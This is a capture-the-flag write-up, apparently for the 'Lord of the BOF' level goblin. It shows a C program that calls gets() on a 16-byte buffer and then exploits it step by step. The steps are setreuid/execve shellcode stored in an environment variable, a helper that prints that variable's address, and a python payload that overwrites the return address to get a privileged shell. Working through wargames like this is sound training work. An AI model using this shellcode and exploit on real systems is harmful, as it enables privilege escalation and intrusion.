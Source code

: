 # Level3

## This level's goal
- LEVEL3 (cobolt -> goblin) : small buffer + stdin

***

```
[cobolt@localhost cobolt]$ bash2
[cobolt@localhost cobolt]$ ls -l
total 16
-rwsr-sr-x    1 goblin   goblin      11824 Feb 26  2010 goblin
-rw-r--r--    1 root     root          193 Mar 29  2010 goblin.c

[cobolt@localhost cobolt]$ cat goblin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

This level's code seems like level2 but there is the difference of gets function. (level2 is strcpy)

This concept is totally same like level2, but I will exploit with the diffence way. (There is no argv in input)

```
[cobolt@localhost cobolt]$ export EGG=`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

[cobolt@localhost cobolt]$ echo 'int main() { printf("EGG -> 0x%x\n", getenv("EGG")); } ' > getegg.c
[cobolt@localhost cobolt]$ gcc getegg.c -o getegg
[cobolt@localhost cobolt]$ ./getegg
EGG -> 0xbffffea7

[cobolt@localhost cobolt]$ (python -c 'print "A"*20+"\xa7\xfe\xff\xbf"'; cat) | ./goblin
AAAAAAAAAAAAAAAAAAAA§þÿ¿
id
uid=503(goblin) gid=502(cobolt) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```
